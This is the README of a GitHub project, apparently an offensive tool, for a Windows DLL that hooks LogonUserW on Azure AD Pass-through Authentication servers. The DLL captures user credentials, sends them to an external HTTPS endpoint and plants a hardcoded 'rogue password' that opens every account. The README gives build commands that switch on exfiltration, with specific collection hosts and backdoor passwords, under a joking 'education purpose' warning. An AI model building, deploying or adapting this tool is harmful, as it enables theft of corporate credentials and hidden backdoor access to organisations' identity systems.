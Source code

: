 # 🥖 OuiOuiBaguette

OuiOuiBaguette is a DLL designed to hook into the LogonUserW function, specifically to capture and exfiltrate authentication requests made to Azure Active Directory in Pass-through Authentication (PTA) mode. It also add "Rogue password" to connect on all account with hardcoded password.

![ouioui](./.github/ouiouibaguette.png)

> ⚠️ **Warning :** Juste education purpose it's méchant of not be gentil
> 

## Setup

To build OuiOuiBaguette, follow these steps:

1. **Clone the repository:**

   ```bash
   git clone https://github.com/requin-citron/ouiouibaguette.git
   cd ouiouibaguette
   ```

2. **Initialize and update submodules:**

    ```bash
    git submodule init
    git submodule update
    ```

3. **Create a build directory and navigate into it:**
    ```bash
    mkdir build
    cd build
    ```

4. **Configure the build with CMake:**
    ```bash
    CC=/usr/bin/x86_64-w64-mingw32-gcc cmake .. -DHTTPS_EXFILTRATION=1 -DDEBUG=0 -DROGUE_PASSWORD="OuiOuiBaguette" -DHTTPS_ENDPOINT="miammiam.kleman.pw" -DUSERAGENT="OUIOUI BAGUETTE"
    ```
> S/O https://github.com/apriorit/mhook.git

```bash
mkdir build && cd build
CC=/usr/bin/x86_64-w64-mingw32-gcc cmake .. -DHTTPS_EXFILTRATION=1 -DDEBUG=1 -DROGUE_PASSWORD="ChevaloReviensStp" -DHTTPS_ENDPOINT="biencepasser.kleman.pw" -DUSERAGENT="Magie"
make -j8 2>&1
```

* `-DHTTPS_EXFILTRATION=1`: Enables HTTPS exfiltration.
* `-DDEBUG=1`: Enables debug mode.
* `-DROGUE_PASSWORD="ChevaloReviensStp"`: Sets the rogue password.
* `-DHTTPS_ENDPOINT="biencepasser.kleman.pw"`: Specifies the HTTPS endpoint.
* `-DUSERAGENT="Magie"`: Sets the user agent.

5. **Build the project:**
```
make -j8 2>&1
```

## Dependencies
* S/O [mhook](https://github.com/apriorit/mhook.git): A library for API hooking on Windows

## Contributor
* S/O [Atao](
https://github.com/Ataao) yet another baguette player who help me to had some baguette to the project